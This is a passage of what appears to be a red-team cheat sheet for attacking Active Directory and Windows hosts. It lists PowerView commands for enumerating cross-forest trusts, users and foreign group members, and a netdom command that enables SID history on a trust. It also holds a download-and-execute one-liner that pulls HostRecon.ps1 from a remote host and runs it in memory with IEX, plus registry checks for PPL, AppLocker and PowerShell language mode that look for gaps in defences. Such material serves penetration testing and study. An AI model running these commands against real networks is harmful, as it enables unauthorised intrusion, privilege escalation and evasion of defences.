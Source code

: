 Get trusts to domains in other forest

```powershell
Get-DomainTrust -Domain d.com

Get-DomainTrustMapping
```

Get users in other forest

```powershell
Get-DomainUser -Domain d.com
```

Get group members of a group in another forest

```powershell
Get-DomainForeignGroupMember -Domain d.com
```

Enable SID history (on target forest DC)

```plaintext
netdom trust d2.com /d:d1.com /enablesidhistory:yes
```

---

## Enumeration

---

Enumerate Windows with HostRecon

```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/HostRecon.ps1') | IEX

Invoke-HostRecon
```

Check if PPL Protection is enabled

```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

Check if AppLocker is enabled

```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

Check PowerShell execution context

```powershell
$ExecutionContext.SessionState.LanguageMode
```

Get loaded DLL’s

```powershell
[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname
```

---